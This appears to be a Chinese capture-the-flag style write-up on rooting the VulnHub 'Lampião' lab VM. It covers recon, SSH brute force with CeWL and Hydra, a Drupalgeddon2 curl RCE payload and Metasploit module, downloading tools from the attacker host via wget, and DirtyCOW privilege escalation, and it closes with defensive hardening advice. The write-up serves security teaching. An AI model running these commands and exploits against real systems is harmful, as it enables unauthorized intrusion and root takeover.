# Lampião — VulnHub 靶机渗透 Writeup

> Web 侦察 → SSH 弱口令爆破 → 本地枚举 → 内核提权（DirtyCOW）拿下 root 的完整链路。

| 项目 | 说明 |
| --- | --- |
| 靶机 | Lampião: 1 |
| 来源 | https://www.vulnhub.com/entry/lampiao-1,249/ |
| 难度 | 初级（OSCP-like） |
| 目标 | 获取 `root` 权限并读取 flag |
| 关键技能 | 主机发现 / 端口服务识别 / Web 侦察 / 字典生成 / SSH 爆破 / 本地枚举 / 内核 exp 编译利用 |
| 攻击机 | Kali Linux `172.20.26.160` |
| 靶机 | `172.20.26.164`（MAC `00:0C:29:2C:42:38`） |

---


## 0. 攻击链总览（TL;DR）

```
主机发现(netdiscover)
        │
        ▼
端口扫描(nmap -p-) ──► 22/ssh  80/http(干扰)  1898/http(Drupal 7)
        │
        ▼
Web 侦察(1898) ──► /?q=node/2、audio.m4a ──► 泄露用户名 tiago
        │
        ├─ 路径 A（本次实操）：cewl 造字典 + hydra 爆破 ──► tiago : Virgulino
        │
        └─ 路径 B（备选）：Drupalgeddon2 / CVE-2018-7600 RCE ──► www-data
        │
        ▼
SSH 登录(tiago) ──► 本地枚举(linpeas / linux-exploit-suggester)
        │
        ▼
内核 4.4.0-31 i686 ──► DirtyCOW / CVE-2016-5195（40847.cpp）
        │
        ▼
   root  ──►  flag
```


## 目录

- [1. 环境与目标](#1-环境与目标)
- [2. 信息收集](#2-信息收集)
- [3. Web 侦察](#3-web-侦察)
- [4. 初始访问](#4-初始访问)
- [5. 本地枚举与提权点定位](#5-本地枚举与提权点定位)
- [6. 提权：DirtyCOW (CVE-2016-5195)](#6-提权dirtycow-cve-2016-5195)
- [7. 战利品](#7-战利品)
- [8. 防御建议（蓝队视角）](#8-防御建议蓝队视角)
- [9. 复盘与踩坑记录](#9-复盘与踩坑记录)


---


## 1. 环境与目标

- 攻击机 Kali：`172.20.26.160`
- 靶机：同网段 `172.20.26.0/24`，IP 待发现，已知 MAC `00:0C:29:2C:42:38`
- 目标：拿到 `root`，读取 flag


---


## 2. 信息收集

### 2.1 主机发现

```bash
netdiscover -r 172.20.26.0/24
```



- 按 MAC `00:0C:29:2C:42:38` 定位到靶机 IP：**`172.20.26.164`**

### 2.2 全端口扫描

```bash
nmap -p- 172.20.26.164
```



- 开放端口：`22/ssh`、`80/http`、`1898`（nmap 猜测为 `cymtec-port`，实为 http）

### 2.3 服务与脚本识别

```bash
nmap -sV -sC -p 22,80,1898 172.20.26.164
```

| 端口 | 服务 | 说明 |
| --- | --- | --- |
| 22 | OpenSSH 6.6.1p1 (Ubuntu) | 版本偏老，后续作为爆破入口 |
| 80 | http | 返回一堆 ASCII 文字画，无实际内容，**干扰端口** |
| 1898 | Apache 2.4.7 + **Drupal 7** | 真正入口；`robots.txt` 暴露 `/CHANGELOG.txt`、`/install.php` 等 |


---


## 3. Web 侦察

### 3.1 80 端口（干扰）

URL：`http://172.20.26.164`



- 页面与源码均无可用信息，进行目录爆破：



- 无有效目录，确认为干扰端口。

### 3.2 1898 端口（Drupal 7）

URL：`http://172.20.26.164:1898`



- CMS 指纹为 **Drupal**，存在登录入口（后续可爆破）。先遍历页面找线索：



点击 “Read more” 得到 `http://172.20.26.164:1898/?q=node/3`，URL 形态提示可能存在 SQL 注入面；`/?q=node/2` 含更多信息：



- `http://172.20.26.164:1898/audio.m4a` —— 音频中听到 **`user: tiago`**（关键：拿到用户名）
- `http://172.20.26.164:1898/qrc.png` —— 二维码，无有效信息

目录遍历：




- 1898 端口未发现可直接利用的文件，转向对 SSH 进行**针对性爆破**（已知用户名 `tiago`）。


---


## 4. 初始访问

### 4.1 路径 A：SSH 弱口令爆破（本次实操主线）

思路：用 CeWL 爬取目标站点正文生成「专属字典」，再用 Hydra 针对用户 `tiago` 爆破 SSH。靶场密码往往就藏在站点文案里。

```bash
# CeWL：爬目标网站，提取页面单词，生成专属密码字典
#   -d 3  爬取深度 3 层
#   -m 4  仅保留长度 >= 4 的词
cewl http://172.20.26.164:1898/ -w wordlist.txt -d 3 -m 4
wc -l wordlist.txt
```



```bash
hydra -l tiago -P wordlist.txt 172.20.26.164 ssh
```



- 命中凭据：**`tiago : Virgulino`**

> 旁注：`Virgulino` 同时出现在 Drupal `sites/default/settings.php` 的数据库配置里（见第 5 节 linpeas 输出），属于「数据库口令复用为系统口令」的典型弱点。

```bash
ssh tiago@172.20.26.164
```



- 以普通用户 `tiago` 进入系统。

### 4.2 路径 B：Drupalgeddon2 / CVE-2018-7600（备选思路）

Lampião 的 1898 端口是 Drupal 7，未打补丁版本对 **Drupalgeddon2** 普遍可利用——这是比 SSH 爆破更「正统」的入口，可直接拿到 `www-data` shell。

- **原理**：Drupal 7/8 的 Form API 对以 `#` 开头的数组键（如 `#post_render`、`#markup`）渲染处理不当，攻击者可在未认证状态下将回调函数注入表单渲染流程，造成**未授权远程代码执行（RCE）**。

- **利用（Metasploit）**：

  ```bash
  msfconsole -q
  use exploit/unix/webapp/drupal_drupalgeddon2
  set RHOSTS 172.20.26.164
  set RPORT 1898
  run
  ```

- **利用（手工 PoC，验证 RCE）**：

  ```bash
  curl -s 'http://172.20.26.164:1898/?q=user/password&name[%23post_render][]=exec&name[%23type]=markup&name[%23markup]=id' \
       --data 'form_id=user_pass&_triggering_element_name=name&_triggering_element_value=1'
  ```

- 拿到 `www-data` 后，同样通过第 5、6 节的内核提权到 root。两条路径在「初始访问」之后**汇合**。


---


## 5. 本地枚举与提权点定位

```bash
id              # 确认当前权限
sudo -l         # 检查是否有可滥用的 sudo 规则
uname -a        # 内核版本，决定是否走内核 exp
```



- `tiago` 不在 sudo 组，`sudo -l` 无可用规则 —— **排除 sudo 提权，转向内核 exp**。

把枚举工具从 Kali 传到靶机（HTTP 中转）：

```bash
# Kali：在工具目录起 HTTP 服务（端口需与靶机 wget 一致！）
python3 -m http.server 80
```



```bash
# 靶机 /tmp：注意 IP 是 Kali 的 172.20.26.160，不是靶机自己
cd /tmp
wget http://172.20.26.160/linpeas.sh
wget http://172.20.26.160/linux-exploit-suggester.sh
chmod +x linpeas.sh linux-exploit-suggester.sh
./linpeas.sh
./linux-exploit-suggester.sh
```



关键结论：

- 内核 **`4.4.0-31-generic` / Ubuntu 14.04.5 LTS / i686（32 位）** —— 老内核，多个内核 exp 适用
- 本机自带 `gcc` / `g++` / `make` —— 可**本地编译** exp
- `linux-exploit-suggester` 标注多个 `highly probable`，其中 **CVE-2016-5195 DirtyCOW** 对该内核稳定可用，选定为提权路径

> 关于文件传输踩坑（端口 / IP 不一致导致脚本下载损坏）的完整复盘，见 [第 9 节](#9-复盘与踩坑记录)。


---


## 6. 提权：DirtyCOW (CVE-2016-5195)

### 6.1 漏洞原理

DirtyCOW 是 Linux 内核内存子系统在处理私有只读映射的**写时复制（Copy-On-Write, COW）**时的竞态条件（race condition）。普通用户通过 `madvise(MADV_DONTNEED)` 与写操作的竞态，可绕过只读限制，向本无写权限的文件（如 `/etc/passwd`、SUID 程序）写入数据，从而提权。影响 2007 年以来几乎所有 Linux 内核版本。

### 6.2 为什么选 40847.cpp

DirtyCOW 有多个利用变体，这里选 **`40847.cpp`**（PTRACE 变体）而非原始 `madvise` 版，原因：

- 用 `PTRACE_POKEDATA` 写入，**比原始竞态更稳定**，老内核上 panic 概率更低；
- 利用结束**自动备份并恢复 `/etc/passwd`**，不破坏系统；
- 临时把 `root` 口令改为已知值，便于直接登录。

### 6.3 利用过程

```bash
# Kali：查找并取出 exp
searchsploit dirty
cp /usr/share/exploitdb/exploits/linux/local/40847.cpp .
python3 -m http.server 80
```



```bash
# 靶机 /tmp：下载并编译
wget http://172.20.26.160/40847.cpp
g++ -O2 -std=c++11 -pthread -o 40847 40847.cpp -lutil
#   -O2          开启编译优化
#   -std=c++11   按 C++11 标准编译
#   -pthread     链接多线程库（exp 用到线程竞态）
#   -lutil       链接 util 库（PTRACE 变体依赖）
#   -o 40847     输出可执行文件名
./40847
```



- exp 将 `root` 口令临时改为 **`dirtyCowFun`**。

### 6.4 切换到 root

```bash
ssh root@172.20.26.164    # 口令：dirtyCowFun（靶机 sshd 默认 PermitRootLogin yes）
id
```



- 获得最高权限 `uid=0(root)`。


---


## 7. 战利品

```bash
cat /root/flag.txt
```

```
flag: 9740616875908d91ddcdaa8aea3af366
```

> 收尾：DirtyCOW 利用结束后确认 `/etc/passwd` 已被 40847 自动还原；清理 `/tmp` 下的 `linpeas.sh`、`linux-exploit-suggester.sh`、`40847*` 等落地文件，避免污染靶机。


---


## 8. 防御建议（蓝队视角）

| 面 | 风险 | 加固措施 |
| --- | --- | --- |
| SSH | 弱口令 + 用户名泄露 + `PermitRootLogin yes` | 强口令 / 密钥登录、`PermitRootLogin no`、fail2ban 限制爆破、隐藏 banner |
| Web | Drupal 7 未打补丁（Drupalgeddon2 RCE）、`CHANGELOG.txt` 暴露版本 | 及时升级 Drupal、移除版本指纹文件、WAF 拦截 `#post_render` 等特征 |
| 口令管理 | 数据库口令 `Virgulino` 复用为系统口令 | 口令分级、禁止跨系统复用、配置文件最小可读权限 |
| 主机 | 内核 4.4.0-31 存在 DirtyCOW；`/tmp` 可执行 | 内核升级打补丁、`/tmp` 挂载 `noexec,nosuid`、卸载非必要编译器 |

**应急响应检测点**：`/var/log/auth.log` 中的 SSH 爆破特征；`/tmp` 下突然出现的 `.sh` / `.cpp` 与编译产物；`/etc/passwd`、`/etc/shadow` 的异常修改时间；新增 `uid=0` 账户；非预期的 root 登录来源 IP。


---


## 9. 复盘与踩坑记录

### 9.1 攻击链时间线

| 阶段 | 手段 | 结果 |
| --- | --- | --- |
| 主机发现 | netdiscover | 定位 `172.20.26.164` |
| 端口/服务 | nmap | 22 / 80(干扰) / 1898(Drupal) |
| Web 侦察 | 手工浏览 + audio.m4a | 泄露用户名 `tiago` |
| 初始访问 | CeWL + Hydra | `tiago:Virgulino`，SSH 登录 |
| 本地枚举 | linpeas / les | 锁定内核 exp |
| 提权 | DirtyCOW (40847.cpp) | `root` + flag |

### 9.2 踩坑：脚本传到靶机后「内容被篡改」

**现象**：`./linpeas.sh` 报 `line 1: _____: command not found`、`syntax error near unexpected token '|'`；`cat linpeas.sh` 看到的疑似「乱码 / 被替换」内容。

**误判**：一度以为文件被「篡改」。实际是两个原因叠加：

1. **HTTP 服务端口与 wget 不一致** —— Kali 起在 `http.server 90`，靶机 `wget` 连默认 `80`，下到的是空文件 / 错误响应（靶机自身 80 还跑着 Web，会下到 HTML 页）。
2. **终端透明背景错觉** —— 空文件 `cat` 无输出，终端透出 Kali 桌面壁纸（带 KALI 龙 logo），被误认成「文件内容变成乱码」。

**定位方法**（关键经验）：判断文件是否完整，**不要靠肉眼 `cat`**（会被终端透明背景、编码、截断同时干扰），只认客观指标：

```bash
wc -c linpeas.sh      # 字节数：正常 linpeas ≈ 300KB+，传坏会明显偏小
md5sum linpeas.sh     # 与源文件比对哈希，一致才算完整
```

`linux-exploit-suggester.sh` 第一次只有 4473 字节（残缺），重新用正确 IP/端口下载后为 90858 字节才正常运行。

**纠正**：Kali 与靶机统一用 `80` 端口、靶机 `wget` 指向 **Kali 的 IP `172.20.26.160`**（而非靶机自身），问题消失。

### 9.3 经验沉淀

- 文件落地后第一动作是 `wc -c` + `md5sum` 校验，而非 `cat`。
- HTTP 中转传文件，**端口两端必须一致**，IP 必须是攻击机而非靶机。
- 内核 exp 有多个变体，优先选「稳定 + 自动恢复系统」的版本（如 DirtyCOW 的 PTRACE 变体 40847），老内核上避免反复运行导致 panic。

---

*本 writeup 用于授权范围内的 VulnHub 靶机学习，仅作教育用途。*
